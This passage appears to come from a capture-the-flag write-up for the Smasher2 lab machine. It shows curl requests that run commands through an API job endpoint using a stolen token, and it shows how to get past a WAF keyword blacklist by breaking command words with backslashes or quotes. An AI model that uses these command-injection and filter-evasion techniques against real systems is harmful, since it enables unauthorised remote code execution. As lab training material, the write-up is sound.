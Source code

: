 *It turns out that the username is, in fact, very commonly used as a default admin
account. A basic dictionary attack with the right wordlist would have cracked this
pretty easily.*

## Command Execution

With access to the API token, we can execute commands on the machine using the
```/api/<key>/job``` endpoint as seen earlier. According to the code, to successfully
use this endpoint, we have to supply a json-encoded dictionary with the key
```schedule``` and the command we want to execute as the value for that key.

```bash
curl -s -X POST -H 'Content-Type: application/json' -b "session=$SESSION" \
    --data '{"schedule": "id"}' "http://wonderfulsessionmanager.smasher2.htb/api/$TOKEN/job"

# Output:
# 
# <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
# <html><head>
# <title>403 Forbidden</title>
# </head><body>
# <h1>Forbidden</h1>
# <p>You don't have permission to access /api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job
# on this server.<br />
# </p>
# <hr>
# <address>Apache/2.4.29 (Ubuntu) Server at wonderfulsessionmanager.smasher2.htb Port 80</address>
# </body></html>
```

Some of the requests result in a ```403 Forbidden``` response. There is not code to
handle this type of behaviour on **auth.py** so there must be some kind of external *WAF*
in place. The *WAF* appears to block some of the requests that contain blacklisted words
such as *id*. However, it is easy to bypass if we break the words using backslashes like
this (it works with *quotes* instead of backslashes as well):

```bash
i\d        # Bash interprets it as 'id'.
l\s -\la   # Bash interprets it as 'ls -la'.

i''d       # Same as i\d
l''s -''la # Same as l\s -\la

curl -s -X POST -H 'Content-Type: application/json' -b "session=$SESSION" \
    --data '{"schedule": "i\\d"}' "http://wonderfulsessionmanager.smasher2.htb/api/$TOKEN/job"

# Output:
#
# {"result":"uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)\n","success":true}
```
